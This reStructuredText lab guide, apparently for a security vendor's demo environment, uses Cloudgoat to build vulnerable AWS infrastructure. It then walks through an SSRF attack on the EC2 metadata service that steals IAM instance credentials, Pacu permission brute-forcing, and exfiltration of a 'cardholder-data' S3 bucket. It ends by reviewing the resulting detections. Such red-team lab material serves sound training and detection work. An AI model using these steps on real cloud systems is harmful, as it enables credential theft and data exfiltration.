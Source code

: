 .. _ec2_attack_lab:


===========================
EC2 Attack
===========================

Notes
++++++++++++++++++++++++++++++++
- SE DfAWS Console https://207753870716.uw2.portal.vectra.ai/
- AWS target account vectra-demolab (884414556547)
- AWS attacker VM should be in a different account vectra-se-dev (257321424819)


Setup AWS Profile
=================

- Login with SSO

.. code:: console

   aws sso login --profile sso-demolab

- Export AWS profile path

.. code:: console

   export AWS_PROFILE=sso-demolab 

- Verify credentials are working

.. code:: console

   aws sts get-caller-identity

Setup Cloudgoat
===============
- Run Cloudgoat config profile from home directory and set default profile name to ``sso-demolab``

.. code:: console

   ~/cloudgoat/cloudgoat.py config profile

- Modify Cloudgoat config whitlelist 

.. code:: console

   echo "`curl ifconfig.io`/32" > ~/cloudgoat/whitelist.txt

- Update Cloudgoat config file 

.. code:: console

   wget https://raw.githubusercontent.com/VectraCommunity/cloudgoat/master/scenarios/cloud_breach_s3/terraform/s3.tf -O ~/cloudgoat/scenarios/cloud_breach_s3/terraform/s3.tf

Create vulnerable infrastructure
++++++++++++++++++++++++++++++++

- Now that the tools are setup we will use Cloudgoat to setup vulnerable
  infrastructure in AWS. This will create a scenario with a misconfigured
  reverse-proxy server in EC2.

-  Run the attack scenario

.. code:: console
   
    ~/cloudgoat/cloudgoat.py create cloud_breach_s3

.. figure:: ./images/cloudgoatout.png
   :alt: cgsetup

.. note::  **Copy the response to a text file**.  You will need the EC2 IP

Start attack
============

At this point we have created vulnerable infrastructure in AWS using
Cloudgoat. Starting as an anonymous outsider with no access or
privileges, exploit a misconfigured reverse-proxy server to query the
EC2 metadata service and acquire instance profile keys. Then, use those
keys to discover, access, and exfiltrate sensitive data from an S3
bucket.

Get Role Name
+++++++++++++

-  Replace ``<ec2-ip-address>`` with the IP address from the previous
   step to get a role name. 

.. code:: console

   curl -s http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/ -H 'Host:169.254.169.254'

.. figure:: ./images/role.png
   :alt: role

.. note:: **Copy the response to a text file**.  You will need the role

Get Credentials
+++++++++++++++

-  Replace ``<ec2-ip-address>`` and ``<ec2-role-name>`` from the
   previous steps to get the keys

.. code:: console

   curl -s http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/<ec2-role-name> -H 'Host:169.254.169.254'

.. figure:: ./images/ssrf2.png
   :alt: creds

.. note::  **Copy response to text file**.  You will use the stolen credentials

Pacu Discovery 
++++++++++++++

-  Next we will use pacu to do discovery with the stolen credentials

   -  Start pacu from the shell session by running ``~/pacu/cli.py``
   -  Create new session in pacu named ``cloud_breach_s3``
   -  Set the keys using ``set_keys`` from the pacu session using the
      stolen credentials from the previous step

.. figure:: ./images/pacukeys.png
   :alt: keys

Pacu Results
++++++++++++

-  Use pacu to start discovery using the following modules

   -  ``run aws__enum_account`` Get account details: permission denied
   -  ``run iam__enum_permissions`` Get permissions for IAM entity:
      permission denied
   -  ``run iam__enum_users_roles_policies_groups`` Get group polices
      for IAM entity: permission denied
   -  ``run iam__bruteforce_permissions`` Brute force for access to
      services: **BINGO!**

.. figure:: ./images/output.png
   :alt: output

-  The stolen credentials have full access to S3
-  Exit pacu by typing ``exit`` and return to attack
   
Data Exfil
++++++++++

-  Create a new aws profile with stolen credentials

.. code:: console

   aws configure --profile cloud_breach_s3

-  Set the ``AWS Access Key ID`` and ``AWS Secret Access Key`` using the
   stolen credentials

-  Set the “Default region” name and the “Default output” format to
   ``json``

-  Manually add the ``aws_session_token`` to the aws credentials file on the new profile ``cloud_breach_s3``
   (use i for insert mode then esc :wq to save and close)

.. code:: console

   vi  ~/.aws/credentials

.. figure:: ./images/sestoken.png
   :alt: sestoken

-  Use aws cli to list buckets the stolen credentials have access to

.. code:: console
   
    aws s3 ls --profile cloud_breach_s3
   
.. figure:: ./images/list.png
    :alt: list

-  Download data from the ``cardholder-data`` bucket to local system
   home directory. Replace ``<bucket-name>`` with the bucket to download
   data

.. code:: console  
   
   aws s3 sync s3://<bucket-name> ~/cardholder-data --profile cloud_breach_s3

-  Change to home directory and perfom list to verify data was
   downloaded 
   
.. code:: console 
   
    cd && ls
   
.. figure:: ./images/download.png
    :alt: verify

-  Remove vulnerable infrastructure with CloudGoat

.. code:: console 

    ~/cloudgoat/cloudgoat.py destroy cloud_breach_s3

-  Delete your attacker VM/AMI in AWS by deleting the Stack you created.  You will need to logon back into AWS for this.

-  Attack had been completed. Review the detections in dfaws dashboard

-  Detections visible include: 
   
   - AWS Organization Discovery- A credential was observed enumerating AWS Organization details.
   - AWS User Permissions Enumeration- Control plane APIs associated with the reconnaissance of IAM resources were invoked in a suspicious way that may be associated with a potential privilege escalation attack.
   - AWS Suspicious EC2 Enumeration- Control plane APIs associated with reconnaissance on EC2 resources were invoked in a suspicious manner. 
   - AWS S3 Enumeration- Control plane APIs associated with the reconnaissance of S3 resources were invoked in a suspicious manner.

.. figure:: ./images/UX.png
   :alt: critical
